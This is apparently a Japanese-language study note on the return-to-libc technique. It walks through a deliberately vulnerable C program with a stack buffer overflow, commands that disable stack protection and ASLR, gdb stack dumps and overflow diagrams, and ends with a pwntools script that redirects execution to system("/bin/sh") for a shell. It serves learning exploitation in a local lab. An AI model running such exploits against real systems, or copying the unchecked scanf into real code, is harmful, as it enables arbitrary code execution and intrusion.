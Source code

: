 # Return to libc

プログラム本体のソースコードにかかれていない関数を呼び出す.

## sh コマンドと system 関数
sh コマンドでシェルを呼び出すことができる.  
シェルは OS の任意のコマンドを呼び出し実行することができる. 

C言語の system 関数から sh コマンドを呼び出すと、そのプログラムがシェルとして動作するようになる. system 関数から sh コマンドを実行させることで任意コード実行が可能になる.

## 攻撃対象
```c
#include <stdlib.h>
#include <stdio.h>

char global[] = "/bin/sh";

void vuln() {
    printf("global: %p\n", global);
    printf("please input a string");
    char overflowme[32];
    scanf("%[^\n]", overflowme);
}

int main() {
    vuln();
    printf("failed!\n");
    return 0;
}
```
コンパイルと下準備
```bash
$ gcc -fno-stack-protector -m32 sys02.c
$ sudo sysctl -wkernel.randomize_va_space=0
```
## system 関数の挙動
次のコードで確認.
```c
#include <stdlib.h>

int main() {
    system("/bin/ls");
    return 0;
}
```
system 関数を呼び出したときのスタック
```
[------------------------------------stack-------------------------------------]
0000| 0xffffd09c --> 0x565561fb (<main+46>:     add    esp,0x10)
0004| 0xffffd0a0 --> 0x56557008 ("/bin/ls")
0008| 0xffffd0a4 --> 0xffffd164 --> 0xffffd298 ("/home/hmiya/Coding/binary_analytics/return_to_libc01/a.out")
0012| 0xffffd0a8 --> 0xffffd16c --> 0xffffd2d3 ("SHELL=/bin/bash")
0016| 0xffffd0ac --> 0x565561e5 (<main+24>:     add    eax,0x2df3)
0020| 0xffffd0b0 --> 0xffffd0d0 --> 0x1
0024| 0xffffd0b4 --> 0x0
0028| 0xffffd0b8 --> 0x0
[------------------------------------------------------------------------------]
```
ret で呼び出したときに  
0000 (リターンアドレス) と 0004 (実行する system 命令) のスタックがあれば system が実行される.

## オーバーフローのイメージ図
```
1. オーバーフロー後のスタック
----------------- esp
...
-----------------
buffer = AAAA...
-----------------
...AAAA...
----------------- ebp
ret_addr -> system
-----------------
sys_ret_addr -> "BBBB"
-----------------
bin_sh_addr -> /bin/sh のアドレス
-----------------
...

2. mov esp, ebp
----------------- esp
buffer = AAAA...
-----------------
...AAAA...
----------------- 
...AAAA
----------------- ebp
ret_addr -> system
-----------------
sys_ret_addr -> "BBBB"
-----------------
bin_sh_addr -> /bin/sh のアドレス
-----------------
...

3. pop ebp
----------------- esp, ebp
ret_addr -> system
-----------------
sys_ret_addr -> "BBBB"
-----------------
bin_sh_addr -> /bin/sh のアドレス
-----------------
... 

4. ret ( = pop eip)
----------------- esp, ebp
ret_addr -> system
-----------------
sys_ret_addr -> "BBBB"
-----------------
bin_sh_addr -> /bin/sh のアドレス
-----------------
... 

5. system
----------------- esp
sys_ret_addr -> "BBBB"
-----------------
bin_sh_addr -> /bin/sh のアドレス
----------------- ebp
... 

```

## Return to libc に必要な要素
1. `vuln()` の `ret` アドレスを `system()` 開始アドレスにする.
2. `system()` が動作するようにスタックを書き換える.

## 具体的な作業
1. `$ p system` で `system()` の開始アドレスを得る.
2. `$ pattc 100` と `$ patto [str]` で `ret` 命令で `eip` に `pop` される `pattc` 文字列を特定 -> そこまでのオフセットを計算
3. `"/bin/sh"` のアドレスを取得
4. 攻撃コードを作成.

```py
from pwn import *

offset = 44
sys_addr = "\x20\xa4\xe1\xf7"
sys_ret_addr = "BBBB"
bin_sh_str_addr = "\x08\x90\x55\x56"

p = process("./a.out")
p.sendline("A"*offset+sys_addr+sys_ret_addr+bin_sh_str_addr)
p.interactive()
```